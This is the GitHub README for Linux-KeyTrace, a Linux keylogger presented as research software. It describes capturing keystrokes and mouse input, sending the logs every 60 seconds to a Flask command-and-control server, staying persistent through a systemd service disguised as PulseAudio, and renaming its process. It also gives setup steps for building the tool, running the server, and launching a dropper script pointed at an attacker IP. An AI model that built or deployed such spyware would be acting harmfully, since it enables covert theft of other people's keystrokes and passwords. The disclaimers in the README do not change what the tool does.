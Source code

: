 ![Linux-KeyTrace Banner](Banner.png)

#  🔐 Linux-KeyTrace <sup><sub>v1.0</sub></sup>

**Linux-KeyTrace** is a Linux-based advanced keylogger built for cybersecurity research and awareness purposes. It captures keystrokes and mouse activity, logs them locally with timestamps, and periodically exfiltrates logs to a remote control server. It includes stealth features such as process renaming and service masquerading.

---

## ⚠️ Disclaimer

> This project is intended **strictly for educational and ethical security research purposes only**.  
> Do **not** use it on systems without **explicit authorization**.  
> The developer assumes **no responsibility** for misuse.

---

## 🔧 Features

- ✅ **Keyboard and Mouse logging** via `/dev/input` event interfaces    
- ✅ **Dynamic device discovery** (`/proc/bus/input/devices`)  
- ✅ **Remote control server** (Flask-based):  
  - Start, stop, cleanup commands  
  - Upload and download logs  
  - Serve payload binary  
- ✅ **Dropper script** to simulate infection  
- ✅ **Persistence** via systemd service (masqueraded as PulseAudio)  
- ✅ **Log exfiltration** every 60 seconds using `libcurl`  
- ✅ **Process disguise** (`pulseaudio`) and binary obfuscation  

---

## 📁 Project Structure

```
Linux-KeyTrace/
├── include/                # Header files
├── src/                    # Keylogger core logic
│   ├── device_finder.c     # Finds keyboard and mouse devices
│   ├── exfiltrator.c       # Sends logs to remote server, fetches commands
│   ├── keymap.c            # Maps keycodes to readable characters
│   ├── logger.c            # Captures and logs keystrokes/mouse events
│   └── main.c              # Main program: init, loop, cleanup
├── server/                 # Flask-based control server
│   ├── listener.py         # Control server backend
│   ├── control.txt         # Remote command file (run, stop, cleanup)
│   ├── ip.txt              # Stores IP used by client
│   └── received_logs/      # Incoming logs from clients
├── misc/                   # systemd service file
├── dropper.sh              # Simulates payload delivery
├── Makefile                # Build instructions
└── README.md               # Project info
```

---

## 🚀 Quick Setup

### 1. Build the Keylogger

```bash
make clean && make
```

---

### 2. Start the Control Server

```bash
cd server
python3 -m venv venv       # Create python virtualenv
source venv/bin/activate   # Start virtualenv
pip install -r requirements.txt 
python3 listener.py
```

The server will start on `http://<your-ip>:8080`

---

### 3. Run the Keylogger (simulate infection)

**Terminal 1** (compile and run):

```bash
ps aux | grep pulseaudio
sudo kill <PID>            # Optional if testing
sudo ./pulseaudio          # Starts the keylogger
```

**Terminal 2** (server already running)

**Terminal 3** (simulate dropper execution):

```bash
./dropper.sh 127.0.0.1     # Replace with attacker IP
```

**Terminal 4** (view logs):

```bash
cd server/received_logs
tail -f keylog.txt
```

---

## 📌 Notes
 
- The keylogger requires **root permissions** to access `/dev/input/event*` devices.  
- Tested on modern Linux distributions with X11.  

---

## 🛡️ Legal Notice

This tool is designed for **red team training**, **ethical hacking labs**, or **controlled environments**.  
Unauthorized use **may violate privacy laws and computer misuse legislation** in your jurisdiction.

---

## 📫 Contact

For inquiries related to responsible usage, security research, or contributing to the project, please reach out via GitHub or your institutional contact channels.

## Author
Developed by Kunal Dharme.